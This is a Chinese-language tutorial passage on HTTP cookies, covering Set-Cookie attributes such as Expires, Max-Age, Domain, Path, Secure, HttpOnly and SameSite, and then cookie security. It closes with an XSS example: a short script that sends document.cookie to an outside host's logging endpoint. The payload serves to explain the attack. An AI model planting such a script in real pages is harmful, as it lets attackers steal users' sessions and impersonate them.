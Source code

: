 #### Cookie
因为HTTP协议是无状态的，对于一个浏览器发出的多次请求，WEB服务器无法区分 是不是来源于同一个浏览器。所以，需要额外的数据用于维护会话。

Cookie只是一段文本，所以它只能保存字符串。而且浏览器对它有大小限制以及 它会随着每次请求（同源）被发送到服务器，所以应该保证它不要太大。

cookie分为 会话cookie 和 持久cookie ，会话cookie是指在不设定它的生命周期 expires 时的状态，浏览器的开启到关闭就是一次会话，当关闭浏览器时，会话cookie就会跟随浏览器而销毁。

两个网址只要域名相同，就可以共享 Cookie（参见《同源政策》一章）。注意，这里不要求协议相同。也就是说，`http://example.com` 设置的 Cookie，可以被 `https://example.com` 读取。

##### Set-Cookie
响应首部 Set-Cookie 被用来由服务器端向客户端发送 cookie。

指令:
1. \<cookie-name>=\<cookie-value> 键值对
2. Expires=\<date> 
  cookie 的最长有效时间，形式为符合 HTTP-date 规范的时间戳。如果没有设置这个属性，那么表示这是一个会话期 cookie 。一个会话结束于客户端被关闭时，这意味着会话期 cookie 在彼时会被移除。然而，很多Web浏览器支持会话恢复功能，这个功能可以使浏览器保留所有的tab标签，然后在重新打开浏览器的时候将其还原。与此同时，cookie 也会恢复，就跟从来没有关闭浏览器一样。
3. Max-Age=\<non-zero-digit> 
  在 cookie 失效之前需要经过的秒数。秒数为 0 或 -1 将会使 cookie 直接过期。一些老的浏览器（ie6、ie7 和 ie8）不支持这个属性。对于其他浏览器来说，假如二者 （指 Expires 和Max-Age） 均存在，那么 Max-Age 优先级更高。
4. Domain=\<domain-value>
  Domain属性指定浏览器发出 HTTP 请求时，哪些域名要附带这个 Cookie。如果没有指定该属性，浏览器会默认将其设为当前 URL 的一级域名，比如www.example.com会设为example.com，而且以后如果访问example.com的任何子域名，HTTP 请求也会带上这个 Cookie。如果服务器在Set-Cookie字段指定的域名，不属于当前域名，浏览器会拒绝这个 Cookie。
5. Path=\<path-value> 
  Path属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，Path属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，PATH属性是/，那么请求/docs路径也会包含该 Cookie。当然，前提是域名必须一致。
6. Secure
  一个带有安全属性的 cookie 只有在请求使用SSL和HTTPS协议的时候才会被发送到服务器。然而，保密或敏感信息永远不要在 HTTP cookie 中存储或传输，因为整个机制从本质上来说都是不安全的，比如前述协议并不意味着所有的信息都是经过加密的。
  注意： 非安全站点（http:）已经不能再在 cookie 中设置 secure 指令了（在Chrome 52+ and Firefox 52+ 中新引入的限制）。
7. HttpOnly
  设置了 HttpOnly 属性的 cookie 不能使用 JavaScript 经由  Document.cookie 属性、XMLHttpRequest 和  Request APIs 进行访问，以防范跨站脚本攻击（XSS）。
8. SameSite=Strict、SameSite=Lax、SameSite=None
  允许服务器设定一则 cookie 不随着跨域请求一起发送，这样可以在一定程度上防范跨站请求伪造攻击（CSRF）。
  Strict最为严格，完全禁止第三方 Cookie，跨站点时，任何情况下都不会发送 Cookie。换言之，只有当前网页的 URL 与请求目标一致，才会带上 Cookie。
  Lax规则稍稍放宽，大多数情况也是不发送第三方 Cookie，但是导航到目标网址的 Get 请求除外。
  Chrome 计划将Lax变为默认设置。这时，网站可以选择显式关闭SameSite属性，将其设为None。不过，前提是必须同时设置Secure属性（Cookie 只能通过 HTTPS 协议发送），否则无效。

##### Cookie的安全问题

XSS(Cross-Site Scripting，跨站脚本攻击)是一种代码注入攻击。 攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。 利用这些恶意脚本，攻击者可获取用户的敏感信息如Cookie、SessionID 等，进而危害数据安全。

XSS攻击可能会窃取网页浏览中的cookie值、劫持流量实现恶意跳转等。

例如:

```javascript
<script>
  new Image().src =
      "http://jehiah.com/_sandbox/log.cgi?c=" + encodeURI(document.cookie);
</script>
```
如果将这段代码插入到某个登陆用户的页面，则Cookie就会通过 HTTP 请求发送给给指定服务，然后就可以伪造那个可怜的登陆用户了

